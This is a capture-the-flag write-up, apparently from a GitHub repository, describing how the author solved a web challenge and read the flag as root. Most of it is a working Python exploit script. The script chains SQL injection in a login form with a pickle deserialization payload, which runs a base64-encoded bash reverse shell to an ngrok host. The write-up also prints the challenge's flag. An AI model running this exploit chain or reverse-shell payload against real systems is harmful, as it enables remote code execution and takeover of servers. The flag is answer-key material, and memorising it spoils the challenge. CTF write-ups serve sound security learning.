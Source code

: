 Challenge:

![Challenge](images/1.challenge.PNG)
  
  
  
To do:  add code analysis
  
  
  
  

I set up my ngrok listener and netcat on my machine.

![ngrok](images/ngrok.PNG)  

![base64](images/base64payload.PNG)

I then added my base64 encoded bash payload into the script and triggered the payload.

![netcat](images/revshell.PNG)  

Script to trigger the payload:

```python
import os
import requests
import pickle
import base64


#bash -i >& /dev/tcp/0.tcp.ngrok.io/10302 0>&1

#Serialize the pickle payload
serializedPickle = pickle.dumps("os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5uZ3Jvay5pby8xMDMwMiAwPiYxCg== | base64 -d | bash',)")
#Convert to base64
picklepayload = base64.b64encode(serializedPickle)

#Decode the payload to stage for the SQL injection
payload = picklepayload.decode()

#Set up our base URL and headers
baseURL = 'http://challenge.ctf.games:32234'
url = baseURL + '/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}

#Construct the base64 attack
data = '''username=jimshoes&password=\\';insert/**/into/**/activesessions/**/values(\\'revshell\\',\\'jim\\',\\'987654321\\');insert/**/into/**/files/**/values(\\'jim\\',\\''' + payload + '''\\',null); -- "; '''

#Send the request
requests.post(url, data=data, headers=header)

#Trigger the payload
url = baseURL + '/download/jim/revshell'
requests.get(url)
```

The challenge states to escalate privileges to find the flag, so I ran ```sudo -l``` to see what permissions I had.

![sudo](images/sudo.PNG)

The account has full sudo privileges, so I elevated to root and claimed the flag in the /root directory.

![flag](images/flag.PNG)


Flag: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```
